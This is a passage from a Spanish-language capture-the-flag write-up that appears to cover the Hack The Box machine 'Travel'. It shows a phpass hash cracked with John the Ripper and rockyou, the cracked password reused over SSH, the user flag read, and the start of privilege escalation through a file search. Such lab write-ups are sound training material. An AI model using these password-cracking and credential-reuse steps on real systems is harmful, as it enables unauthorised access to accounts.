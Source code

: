 Obtengo la contraseña

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1stepcloser      (?)     
1g 0:00:00:35 DONE (2023-04-08 10:10) 0.02843g/s 20799p/s 20799c/s 20799C/s 1stuna..1996sh
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

Se reutiliza por SSH

```null
ssh lynik-admin@10.10.10.189
The authenticity of host '10.10.10.189 (10.10.10.189)' can't be established.
ED25519 key fingerprint is SHA256:Nt7Z0XNIx0fl2NzU79G5kFr/gbwGpuTzt7Bst14vooo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.189' (ED25519) to the list of known hosts.
lynik-admin@10.10.10.189's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 08 Apr 2023 10:12:41 AM UTC

  System load:                      0.0
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        205
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

lynik-admin@travel:~$ cat user.txt 
64cc7be2cfaffd145514bbdba5a04a01
```

# Escalada

En el directorio personal de este usuario hay un archivo de configuración del LDAP

```null
lynik-admin@travel:/$ find \-user $(whoami) 2>/dev/null | grep -vE "proc|run|sys|dev"
./home/lynik-admin
./home/lynik-admin/.bash_logout
./home/lynik-admin/.bashrc
./home/lynik-admin/.cache
./home/lynik-admin/.cache/motd.legal-displayed
./home/lynik-admin/.bash_history
./home/lynik-admin/.viminfo
./home/lynik-admin/.profile
./home/lynik-admin/.ldaprc
```
